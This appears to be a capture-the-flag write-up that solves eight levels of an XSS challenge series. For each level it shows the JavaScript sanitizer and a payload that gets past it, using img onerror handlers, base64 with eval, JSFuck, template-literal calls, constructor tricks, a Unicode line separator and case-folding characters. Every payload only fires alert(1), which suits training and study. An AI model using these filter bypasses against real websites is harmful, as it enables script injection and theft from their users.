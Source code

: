 
# eXXStravaganza 
For the eXXStravaganza series, one must exploit an XSS vulnerability that triggers an "alert(1)" without any user interaction. The challenges in this series all occur in the same way :
- Sanitizer (javascript source code that processes our input). 
- Input (text area where we enter the payload )
- Output (frame that shows us the output of the html page)
- MiniBrowser (browser where our html page is rendered)
![](./images/xss1.png)

# Level 1 
This is the first level , very simple , a warmup 
just enter `<script>alert(1)</script>` as input to trigger the alert 

# Level 2
Sanitizer : 
```javascript
function sanitize(input) {
    // no scripts!
    if (input.toLowerCase().includes('script')) {
        return 'NO!';
    }
    return input;
}
```
In this case we cannot use the `<script>` tag and there are many ways to bypass it , I used the `<img>` tag :
```html
<img/src=x onerror=alert(1)>
```

# Level 3
Sanitizer
```javascript
function sanitize(input) {
    // no alert!
    if (input.toLowerCase().includes('alert')) {
        return 'NO!';
    }
    return input;
}
```
In this case we cannot use the word `alert` , so we can use a base64 encoding and run it with `eval()` function :
```html
<script> eval(atob("YWxlcnQoMSk=")) </script>
```
# Level 4
Sanitizer : 
```javascript
function sanitize(input) {
    // uppercase! how r ya gonna call that alert?
    return input.toUpperCase();
}
```
For this level I used [JsFuck](https://jsfuck.com/) , so the payload is : 
```
<script>[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]][([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[+!+[]+[!+[]+!+[]+!+[]]]+[+!+[]]+([+[]]+![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[!+[]+!+[]+[+[]]])()</script>
```


# Level 5
Sanitizer : 
```javascript
function sanitize(input) {
    // no equals, no parentheses!
    return input.replace(/[=(]/g, '');
}
```
In this case there is a regex that prevents us from using parentheses and equals `(=`
So I used this payload: 
```javascript
<script> eval.call`${"alert\x281\x29"}`</script>
```
Here you can find the explanation of [call() function](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function/call) and [Template Literals](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals)

# Level 6 
Sanitizer :
```javascript
function sanitize(input) {
    // no symbols whatsoever! good luck!
    const sanitized = input.replace(/[[|\s+*/<>\\&^:;=`'~!%-]/g, '');
    return "  \x3Cscript\x3E\nvar name=\"" + sanitized + "\";\ndocument.body.innerText=name;\n  \x3C/script\x3E";
}
```
In this case our input is sanitized by a regex (which removes most of the special characters) and is inserted inside `var name=" "`\
We can use double quotes to escape the string and insert a payload to trigger the alert, there could be more ways to do it but I used a `Function()` object by calling it with the prototype `constructor`\
![](./images/xss2.png)
`"a".constructor.constructor(alert(1))` is like `Function(alert(1))`\
At this point we could use the slash `/` to comment out the remaining part, but the regex filters the `/` character and after some research I found a javascript operator called nullish coalescing (`??`) operator \
So the payload becomes: 
```javascript
a".constructor.constructor(alert(1))??"
```

(Here you can find the explanation of [Function()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function) , [Object.prototype.constructor](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/constructor) and [Nullish coalescing operator ??](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Operators/Nullish_coalescing) )

# Level 7 
Sanitizer : 
```javascript
function sanitize(input) {
    // no tags, no comments, no string escapes and no new lines
    const sanitized = input.replace(/[</'\r\n]/g, '');
    return "  \x3Cscript\x3E\n// the input is '" + sanitized + "'\n  \x3C/script\x3E";
}
```

In this case our input is placed in a comment so it is not executed 
![](./images/xss3.png)
After some research, I found a unicode character called [Line Separator (U+2028)](https://unicodeplus.com/U+2028), this character breaks the comment line (the character is not represented by any symbol so it may look like a simple space character )
```
 alert(1) --> 
```
![](./images/xss5.png)
I don't know why `-->` it works as a comment in this case I did so many tests to "bypass" the second quote `'`
![](./images/xss4.png)

# Level 8
Sanitizer : 
```javascript
function sanitize(input) {
    let sanitized = input;
    do{
        input = sanitized;
        // no opening tags
        sanitized = input.replace(/<[a-zA-Z]/g, '')
    } while (input != sanitized)
    sanitized = sanitized.toUpperCase();
    do{
        input = sanitized;
        // no script
        sanitized = input.replace(/SCRIPT/g, '')
    } while (input != sanitized)
    return sanitized.toLowerCase();
}
```
this script removes all `script` words and any alphabetic characters (a-z , A-Z) after `<` 
![](./images/xss6.png)
The interesting part is that the script uses first `toUpperCase()` and after `toLowerCase()`, so we can find unicode lowercase characters that share the same uppercase character, to find them I used a small script in JS :
```javascript
for (let i = 0; i < 65536; i++) {
    let i_start=String.fromCharCode(i)
    let i_upper = String.fromCharCode(i).toUpperCase();
    let i_lower = i_upper.toLowerCase();
    if (i_lower == "i"){ //change "i" to the character you want to test  
        console.log(i,i_start, i_upper, i_lower);
    }
}
```
With this script I found 2 characters that have the same uppercase character (I,S) 
![](./images/xss7.png)
so I used the `ı` character for the `<img>` tag.
```html
<ımg/src=x onerror=alert(1)>
```
![](./images/xss8.png)

